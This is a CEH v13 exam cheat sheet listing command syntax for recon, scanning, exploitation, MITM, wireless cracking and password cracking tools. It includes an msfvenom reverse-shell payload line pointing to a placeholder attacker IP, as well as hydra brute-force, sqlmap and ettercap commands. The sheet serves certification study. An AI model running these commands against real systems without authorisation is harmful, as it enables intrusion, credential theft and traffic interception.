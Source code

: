 # ⚡ CEH Quick Commands & Syntax

This file contains **must-know commands** for CEH v13.  
Memorize these exact syntaxes — EC-Council often asks either **“Which command would you run?”** or shows an output and asks **“Which tool produced this?”**.

---

## 🔹 Reconnaissance
**theHarvester** – Gather emails, subdomains  
```bash
theHarvester -d example.com -l 100 -b google
```

**whois** – Domain registration info  
```bash
whois example.com
```

**dig** – Query DNS records  
```bash
dig ANY example.com
dig MX example.com
```

**dnsrecon** – DNS enumeration  
```bash
dnsrecon -d example.com -t axfr
```

**subfinder** – Subdomain discovery  
```bash
subfinder -d example.com
```

---

## 🔹 Scanning & Enumeration
**nmap** – Full TCP scan, service detection, OS fingerprinting  
```bash
nmap -sV -A -p- target
```

**rustscan** – Fast port scan + Nmap  
```bash
rustscan -a target --ulimit 5000 -- -sV
```

**enum4linux** – SMB enumeration  
```bash
enum4linux -a target
```

**snmpwalk** – SNMP data gathering  
```bash
snmpwalk -v2c -c public target
```

**nbtstat** – NetBIOS info (Windows)  
```bash
nbtstat -A targetIP
```

---

## 🔹 Exploitation
**msfconsole** – Start Metasploit  
```bash
msfconsole
search exploit_name
use exploit/path
set RHOSTS target
set PAYLOAD payload_type
run
```

**msfvenom** – Payload generation  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=4444 -f exe -o shell.exe
```

**hydra** – Brute force login  
```bash
hydra -l admin -P passwords.txt ssh://target
```

**sqlmap** – SQL injection  
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

---

## 🔹 Post-Exploitation
**netcat** – Reverse shell listener  
```bash
nc -lvnp 4444
```

**ettercap** – MITM attack  
```bash
ettercap -T -M arp:remote /target1/ /target2/
```

**bettercap** – Modern MITM framework  
```bash
bettercap -iface eth0
```

---

## 🔹 Wireless Attacks
**airmon-ng** – Enable monitor mode  
```bash
airmon-ng start wlan0
```

**airodump-ng** – Capture handshake  
```bash
airodump-ng wlan0mon
```

**aircrack-ng** – Crack WPA handshake  
```bash
aircrack-ng capture.cap -w wordlist.txt
```

---

## 🔹 Web App & WAF Testing
**gobuster** – Directory brute force  
```bash
gobuster dir -u http://target.com -w wordlist.txt
```

**wafw00f** – WAF detection  
```bash
wafw00f http://target.com
```

---

## 🔹 Hash & Password Attacks
**hashcat** – Crack NTLM hash  
```bash
hashcat -m 1000 hash.txt wordlist.txt
```

**john** – Crack passwords  
```bash
john --wordlist=wordlist.txt hash.txt
```

**md5sum** – Generate file hash  
```bash
md5sum file.txt
```

---

## 🔹 Encoding & Decoding
**CyberChef** – Browser-based, drag-and-drop  
**base64** – Encode/Decode  
```bash
echo "text" | base64
echo "dGVzdA==" | base64 -d
```

---

## 📌 Exam Tips
- Always **associate tool → attack phase → scenario**.
- EC-Council may replace `target` with an **IP**, `example.com`, or leave blanks for you to fill.
- Syntax questions often hide the answer in **flags** (`-sV`, `-A`, `-p-`).
